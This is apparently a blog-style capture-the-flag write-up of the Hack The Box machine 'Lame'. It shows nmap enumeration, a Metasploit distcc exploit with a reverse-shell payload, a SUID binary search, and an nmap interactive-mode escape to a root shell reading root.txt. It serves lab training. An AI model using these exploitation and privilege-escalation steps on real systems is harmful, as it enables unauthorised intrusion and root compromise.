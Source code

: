 ```yaml
---
title: HTB - Lame
date: 2023-11-27
categories: [CTF Write Up, HTB]
tags: [nmap, suid, hacktricks, metasploit, distccd, cve-2004-2687]
img_path: /assets/lame/
published: true
---
```


![room_banner](lame_banner.png)

## Overview

|:-:|:-:|
|Machine|[Lame](https://app.hackthebox.com/machines/1)|
|Rank|Easy|
|Time|45min|
|Focus||

## 1. Initial Enum

```shell
sudo nmap -sS -sC -sV -O -Pn --min-rate 10000 10.10.10.3 -p-

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)

22/tcp   open  ssh    OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)

139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))

Aggressive OS guesses: Linux 2.6.23 (92%)

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h30m21s, deviation: 3h32m10s, median: 19s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-11-27T15:18:00-05:00
```

> FTP server is empty & SMB enumeration lead to nothing.

## 2. Initial Foothold

> [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/3632-pentesting-distcc): *Distcc is designed to speed up compilation by taking advantage of unused processing power on other computers. A machine with distcc installed can send code to be compiled across the network to a computer which has the distccd daemon and a compatible compiler installed.*

> msf6 exploit(unix/misc/distcc_exec) > set payload /cmd/unix/reverse

```shell
# meterpreter
cd home
ls
ftp
makis
service
user
cd makis
ls
user.txt
```
## 3. Privilege Escalation

```shell
daemon@lame:/$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
...
/usr/bin/nmap
/usr/bin/chsh
/usr/bin/netkit-rcp
/usr/bin/passwd
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/usr/lib/telnetlogin
/usr/lib/apache2/suexec
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/pt_chown
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
```

<figure>
    <img src="gtfobins_suid_sudo_nmap.png"
    alt="GTFOBins nmap" >
</figure>

> SUID section does not work --> SUDO (b) works!

```shell
daemon@lame:/usr/bin$ ./nmap --interactive
./nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# cat /root/root.txt
cat /root/root.txt
```

<figure>
    <img src="lame_pwned.png"
    alt="Machine pwned" >
</figure>